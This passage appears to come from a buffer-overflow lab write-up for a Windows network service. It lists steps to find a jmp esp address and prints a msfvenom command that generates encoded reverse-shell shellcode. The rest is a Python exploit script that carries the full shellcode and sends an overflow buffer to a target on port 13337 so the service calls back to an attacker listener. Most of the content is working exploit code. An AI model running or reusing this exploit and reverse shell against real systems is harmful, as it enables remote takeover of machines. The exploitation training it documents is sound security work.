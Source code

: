 * break point jmp esp (double click) + restart service

 <img src="/img/crashed/point.PNG" alt="Getting-gz" width="800" height="440">


* create shell code by msfvenom
* `msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.128.128 LPORT=443 -e x86/shikata_ga_nai -f py -v shell -b "\x00"`
* update python script
* replace  BBBB esp get from mona script (\xad\x12\x50\x62') write(little endian)
* add nop(no operation befor shellcode)\x90

		{% highlight text %}
		import socket
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		shell =  b""
		shell += b"\xda\xd1\xd9\x74\x24\xf4\xbe\x3d\x6f\x0b\x48\x58"
		shell += b"\x29\xc9\xb1\x52\x31\x70\x17\x03\x70\x17\x83\xd5"
		shell += b"\x93\xe9\xbd\xd9\x84\x6c\x3d\x21\x55\x11\xb7\xc4"
		shell += b"\x64\x11\xa3\x8d\xd7\xa1\xa7\xc3\xdb\x4a\xe5\xf7"
		shell += b"\x68\x3e\x22\xf8\xd9\xf5\x14\x37\xd9\xa6\x65\x56"
		shell += b"\x59\xb5\xb9\xb8\x60\x76\xcc\xb9\xa5\x6b\x3d\xeb"
		shell += b"\x7e\xe7\x90\x1b\x0a\xbd\x28\x90\x40\x53\x29\x45"
		shell += b"\x10\x52\x18\xd8\x2a\x0d\xba\xdb\xff\x25\xf3\xc3"
		shell += b"\x1c\x03\x4d\x78\xd6\xff\x4c\xa8\x26\xff\xe3\x95"
		shell += b"\x86\xf2\xfa\xd2\x21\xed\x88\x2a\x52\x90\x8a\xe9"
		shell += b"\x28\x4e\x1e\xe9\x8b\x05\xb8\xd5\x2a\xc9\x5f\x9e"
		shell += b"\x21\xa6\x14\xf8\x25\x39\xf8\x73\x51\xb2\xff\x53"
		shell += b"\xd3\x80\xdb\x77\xbf\x53\x45\x2e\x65\x35\x7a\x30"
		shell += b"\xc6\xea\xde\x3b\xeb\xff\x52\x66\x64\x33\x5f\x98"
		shell += b"\x74\x5b\xe8\xeb\x46\xc4\x42\x63\xeb\x8d\x4c\x74"
		shell += b"\x0c\xa4\x29\xea\xf3\x47\x4a\x23\x30\x13\x1a\x5b"
		shell += b"\x91\x1c\xf1\x9b\x1e\xc9\x56\xcb\xb0\xa2\x16\xbb"
		shell += b"\x70\x13\xff\xd1\x7e\x4c\x1f\xda\x54\xe5\x8a\x21"
		shell += b"\x3f\xca\xe3\xa9\x3f\xa2\xf1\xa9\x3e\x88\x7f\x4f"
		shell += b"\x2a\xfe\x29\xd8\xc3\x67\x70\x92\x72\x67\xae\xdf"
		shell += b"\xb5\xe3\x5d\x20\x7b\x04\x2b\x32\xec\xe4\x66\x68"
		shell += b"\xbb\xfb\x5c\x04\x27\x69\x3b\xd4\x2e\x92\x94\x83"
		shell += b"\x67\x64\xed\x41\x9a\xdf\x47\x77\x67\xb9\xa0\x33"
		shell += b"\xbc\x7a\x2e\xba\x31\xc6\x14\xac\x8f\xc7\x10\x98"
		shell += b"\x5f\x9e\xce\x76\x26\x48\xa1\x20\xf0\x27\x6b\xa4"
		shell += b"\x85\x0b\xac\xb2\x89\x41\x5a\x5a\x3b\x3c\x1b\x65"
		shell += b"\xf4\xa8\xab\x1e\xe8\x48\x53\xf5\xa8\x79\x1e\x57"
		shell += b"\x98\x11\xc7\x02\x98\x7f\xf8\xf9\xdf\x79\x7b\x0b"
		shell += b"\xa0\x7d\x63\x7e\xa5\x3a\x23\x93\xd7\x53\xc6\x93"
		shell += b"\x44\x53\xc3"`

		 payload='A'*998
		 buffer=buffer="SECRET"+payload+'\xad\x12\x50\x62'+'\x90'*16+shell+'\x90'*(2000-998-4-6-16-len(shell))
		 s.connect(("192.168.128.129",13337))
		 print s.recv(1024)
		 s.send(buffer)
		 s.close()
		 {% endhighlight %}
